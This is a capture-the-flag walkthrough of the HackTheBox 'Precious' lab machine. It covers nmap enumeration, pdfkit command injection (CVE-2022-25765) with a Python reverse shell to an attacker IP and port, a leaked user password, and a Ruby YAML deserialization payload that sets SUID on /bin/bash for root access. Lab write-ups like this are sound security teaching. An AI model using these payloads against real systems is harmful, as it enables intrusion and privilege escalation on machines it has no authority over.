 ```yaml
---
title: <img width="50" height="50" alt="front-page port 80-shoopyu" src="https://user-images.githubusercontent.com/95465072/209340923-763cc8d2-e9fa-4afb-b2c5-3b7edc1b0851.png"> Precious  | HackTheBox | Easy
date: 2022-10-21 00:00:02 +730
categories: [Write Up, hackthebox]
tags: [pdfkit, web, http, hackthebox, ctf, easy, walkthrough, precious] # TAG names should always be lowercase


---
```


-------------------


<img width="590" alt="precious-htb" src="https://user-images.githubusercontent.com/95465072/208431959-7e9254d5-7d6b-46f5-8e5f-a257729a6eb2.png">


[HackTheBox / Precious - machine!](https://app.hackthebox.com/machines/513)

-------------------


## Enumeration {nmap}

```sh
sudo nmap -sV -sC <target-ip>
```

### Result:
```
┌──(root㉿kali)-[/home/local_host/Desktop/machines/precious-HTB]
└─# nmap -sV -sC 10.10.11.189                 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-10 08:28 EST
Nmap scan report for 10.10.11.189
Host is up (0.51s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.86 seconds
```

## Web Reconnaissance

So Let’s first enumerate port 80. The index page looks like this. Page source contains nothing useful.

![80-precious](https://user-images.githubusercontent.com/95465072/207928050-7eb4dcda-200c-49f3-99db-6337026dd3ca.png)




                                                                         

The web server appears to offer a service that converts web pages into PDF files. Let’s test this functionality out.

![1_rQGaBrXKGZtnBwTeLP5tZg.webp](https://cdn.hashnode.com/res/hashnode/image/upload/v1670008582533/4b8b101e-f65a-451c-94c7-087c81493802.webp?auto=compress,format&format=webp)

```sh
python3 -m http.server --bind 127.0.0.1 80
```
Once your server is running, go back to precious.htb and enter the IP address and port number your server is running on, and click submit. As expected, a pdf file should be downloaded to your machine. Mine looks like this:

![1_7Q3i6kaKvTVB2OKarJqyww.webp](https://cdn.hashnode.com/res/hashnode/image/upload/v1670008594683/5db20699-5474-4b4b-a669-755ffc2b6ec6.webp?auto=compress,format&format=webp)

####   Let's check the metadata of this!!
```
┌──(root㉿kali)
|
└─# exiftool 61fs66gu9di2n46jugnn8n21hfgfj4fg.pdf
ExifTool Version Number         : 12.51
File Name                       : 61fs66gu9di2n46jugnn8n21hfgfj4fg.pdf
Directory                       : .
File Size                       : 18 kB
File Modification Date/Time     : 2022:12:10 08:35:39-05:00
File Access Date/Time           : 2022:12:10 08:35:52-05:00
File Inode Change Date/Time     : 2022:12:10 08:35:39-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```           
What’s interesting to us here is that the file is generated by **pdfkit v0.8.6.** a PDF document generation library. Doing a quick google search looking for any known vulnerabilities we find ```CVE-2022–25765```


## Exploit

### Payload
```sh
http://xx.xx.xx.xx/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.af_inet,socket.sock_stream);s.connect(("10.10.14.21",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```


### Listener 
```sh
nc -lnvp 9001
```

![1_eKwh6KNdXAW8NTLaMU-TZA.webp](https://cdn.hashnode.com/res/hashnode/image/upload/v1670008670007/93dff2e1-b8e9-4ff7-9836-1f5b6d50b9e8.webp?auto=compress,format&format=webp)

Looking around a bit more, we find a file in /home/ruby/.bundle directory called config. Displaying the contents of config reveals the password for user henry

## Foothold

As you can see, we managed to log into the server as the user ruby. Navigating to the /home directory, we find two directories. One for our ruby user, and one for a user called henry. Inside henry’s directory we can see a file called user.txt. That’s got to be our first flag. Unfortunately, we can’t access it yet



![1_T9L8TuHDBNYhsugJctzCoA.webp](https://cdn.hashnode.com/res/hashnode/image/upload/v1670008738144/e4710698-d59a-4b61-9153-c8edfb8d4f73.webp?auto=compress,format&format=webp)

instead we got password for henry's account ```Q3c1AqGHtoI0aXAYFH```

```sh
ssh henry@<ip-addr>
```

## Privilege Escalation:

![1_Lw_aaW0-w4GS1g0MSqtZwg.webp](https://cdn.hashnode.com/res/hashnode/image/upload/v1670008817753/c0b8f3f5-b688-4c8d-8773-f6e8bf40d31e.webp?auto=compress,format&format=webp)

It appears that henry can run the file update_depencies.rb **as root**. Use cat to take a look at the file

![1_q5yGqzQ3IUSLAvZ4H2TL9Q.webp](https://cdn.hashnode.com/res/hashnode/image/upload/v1670008831300/5446402e-3683-4097-9ddc-95261d086fbb.webp?auto=compress,format&format=webp)

[click here to copy the payload](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565)
```
create a file called dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
```

> **note** : Replace the id with ```chmod u+s /bin/bash```
 
Run the file
```sh
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
![1__MagsGJeINwnESjf6izVUw.webp](https://cdn.hashnode.com/res/hashnode/image/upload/v1670008869699/1561e141-d42b-4bcb-b571-1d08c7ef21f3.webp?auto=compress,format&format=webp)

&nbsp;
&nbsp;

# Congragulations You got the root access!!

**USER FLAG**
```75fb440c0ef7fd22c28f************```


**ROOT FLAG**
```6e8dfa9c1c1968383f0c************```

---------------------
